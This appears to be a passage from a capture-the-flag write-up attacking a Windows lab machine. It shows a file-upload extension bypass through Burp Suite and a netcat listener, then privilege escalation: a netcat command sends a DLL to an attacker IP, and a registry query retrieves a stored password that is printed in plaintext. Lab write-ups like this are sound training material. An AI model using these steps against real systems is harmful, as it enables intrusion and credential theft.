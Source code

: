 3. Send the payload and active the proxy to fix parameters using burpsuite
<br/><br/>
4. Change the extension of the file from pdf to aspx → forward→ forward → forward
<br/><br/>
Then we should get a success message and go yo IssuePrescription panel
<br/><br/>
> Open a listening port using netcat
> 
<br/><br/>
Exploit SSFR 
<br/><br/>
![Untitled]({{ '/assets/images/94ca916f-5bc2-4a9a-af6f-814258e195ad-export-f51654bc-029e-4954-975d-4dc867d57570/94ca916f-5bc2-4a9a-af6f-814258e195ad-export-f51654bc-029e-4954-975d-4dc867d57570_Untitled_4.png' | relative_url }})
<br/><br/>
User flag on c:\Users\svc_exampanel\Desktop>type user.txt
<br/><br/>
## 3: Priv esc
<br/><br/>
- We found some dll’s on c:\inetpub\ExaminationPanel\ExaminationPanel\bin
<br/><br/>
- There’s might be something interesting on ExaminationManagement.dll let’s move from here to c:\Users\svc_exampanel\Desktop because is there where we have permissions, use nc to download locally to reverse it.
<br/><br/>
```bash
nc -lnvp4444 >  ExaminationManagement.dll
.\nc.exe 10.10.14.000 4444 -w 3 <  ExaminationManagement.dll

```
<br/><br/>
<aside>
🪡 We’ll use dnSpy to reverse dll

</aside>
<br/><br/>
We can see there’s a key which is saved on the local machine specifically on (Software\\MedDigi)  
<br/><br/>
![Untitled]({{ '/assets/images/94ca916f-5bc2-4a9a-af6f-814258e195ad-export-f51654bc-029e-4954-975d-4dc867d57570/94ca916f-5bc2-4a9a-af6f-814258e195ad-export-f51654bc-029e-4954-975d-4dc867d57570_Untitled_5.png' | relative_url }})
<br/><br/>
```bash
reg query HKEY_LOCAL_MACHINE\Software\MedDigi
```
<br/><br/>
- "HKEY_LOCAL_MACHINE" is one of the five main sections of the Windows registry. It contains settings specific to the current computer, regardless of the user logged in.
<br/><br/>
- "Software" is a subsection within HKEY_LOCAL_MACHINE that contains information about installed software on the system.
<br/><br/>
- "MedDigi" appears to be a specific key within the "Software" subsection.
<br/><br/>
### Password: 1g0tTh3R3m3dy\!\!
<br/><br/>
\ To indicate a special character
<br/><br/>
Check for evil winrm port (5985) to see if we can get access
<br/><br/>
![Untitled]({{ '/assets/images/94ca916f-5bc2-4a9a-af6f-814258e195ad-export-f51654bc-029e-4954-975d-4dc867d57570/94ca916f-5bc2-4a9a-af6f-814258e195ad-export-f51654bc-029e-4954-975d-4dc867d57570_Untitled_6.png' | relative_url }})
<br/><br/>
We have these users
<br/><br/>
![Untitled]({{ '/assets/images/94ca916f-5bc2-4a9a-af6f-814258e195ad-export-f51654bc-029e-4954-975d-4dc867d57570/94ca916f-5bc2-4a9a-af6f-814258e195ad-export-f51654bc-029e-4954-975d-4dc867d57570_Untitled_7.png' | relative_url }})